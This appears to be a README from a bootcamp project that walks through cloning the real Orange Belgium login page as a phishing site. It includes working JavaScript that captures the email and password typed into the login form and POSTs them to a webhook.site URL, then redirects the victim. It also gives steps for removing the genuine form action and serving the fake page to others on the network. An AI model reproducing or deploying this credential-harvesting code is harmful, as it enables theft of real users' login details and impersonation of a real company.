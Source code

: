 # Simulate the Orange Customer Connexion Webpage

## 1) Get the source code of the page

- Go to : https://www.orange.be/fr/e-services/login
- ctrl + s or right click and "save as"

## 2) Get a webhook

- Go to : webhook.site
- Copy the url (you gonna need it soon)

## 3) Write a script to return info to webhook

- open a new JS file here ´data.JS´
- write this script (and use the url of the webhook)

>  let myForm = document.getElementById('sso-form');  // "let name" create a variable and then we put in it the content of an id. Here id of the form
>  let formEmail = document.getElementById('sso-email'); // id of the mail input
>  let formPassword = document.getElementById('sso-password');// id of the password input
>  
>  myForm.addEventListener('submit', (e) => { // we wait for specific moment to run, here it's the submit button
>    e.preventDefault();
>   fetch('https://webhook.site/ccbd4eb0-f4b0-48c0-96da-4a96ab73004c', { //when it's in action the script fetch the data and return it to the web hook url
>       method: "POST",
>        body: JSON.stringify({ //this line transform the data we collect (who's in json format) and transform it into strings
>            username: formEmail.value, //here we say to stock those string into the variable we have creat on the top
>            password: formPassword.value
>        })
>    }).then(window.location.href = "https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley"); // after all of this the user is redirected to this URL
>  })
>
> [!](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/data.js.png)


## 4) Make some change on the HTML 

- remove this part from sso-form :
>  action="https://sso.orange.be/auth/sm/login.fcc" data-soho-check="/e-services/userCheck/b2b" data-soho-target="https://e-services.business.orange.be/fr/espace-client-soho/?fromB2C=true">

- On the bottom of the form put your script link

 [![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/callScript.png)
 [![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/CallScriptPosition.png)



-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Normaly it should work localy**

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


## Make a local server to host it

- Dont forget to rename your webpage into index.html
- on your folder open the terminal and write this command to launch a python server `py -m http.server` (the default port is 8000)
- You can acces your webpage with localhost:8000
- Other person on the same network can have acces to id with yourIP:8000


**Eazy Peazy Lemon Squezzy**
**RESULT**

On fake Orange
[!](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/orangeCO.png)

On webhook
> [![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/webhookResult.png)



